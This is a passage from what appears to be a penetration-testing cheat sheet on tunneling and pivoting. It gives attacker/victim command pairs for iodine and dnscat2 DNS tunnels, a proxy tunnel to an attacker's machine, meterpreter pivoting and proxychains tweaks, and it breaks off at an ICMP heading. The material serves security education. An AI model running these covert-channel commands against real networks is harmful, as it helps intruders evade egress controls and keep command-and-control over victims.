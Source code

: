 It authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. Then, you can use the tool of your choice through this port.
Example that forward port 443

Username Alice 
Password P@ssw0rd 
Domain CONTOSO.COM 
Proxy 10.0.0.10:8080 
Tunnel 2222:<attackers_machine>:443

Now, if you set for example in the victim the SSH service to listen in port 443. You can connect to it through the attacker port 2222.
You could also use a meterpreter that connects to localhost:443 and the attacker is listening in port 2222.
YARP

A reverse proxy create by Microsoft. You can find it here: https://github.com/microsoft/reverse-proxy​
DNS Tunneling
Iodine

​https://code.kryo.se/iodine/​

Root is needed in both systems to create tun adapters and tunnels data between them using DNS queries.

attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2

The tunnel will be really slow. You can create a compressed SSH connection through this tunnel by using:

ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080

DNSCat2

Establishes a C&C channel through DNS. It doesn't need root privileges.

attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

Port forwarding with dnscat

session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host

Change proxychains DNS

Proxychains intercepts gethostbyname libc call and tunnels tcp DNS request through the socks proxy. By default the DNS server that proxychains use is 4.2.2.2 (hardcoded). To change it, edit the file: /usr/lib/proxychains3/proxyresolv and change the IP. If you are in a Windows environment you could set the IP of the domain controller.
Tunnels in Go

​https://github.com/hotnops/gtunnel​
ICMP Tunneling
Hans
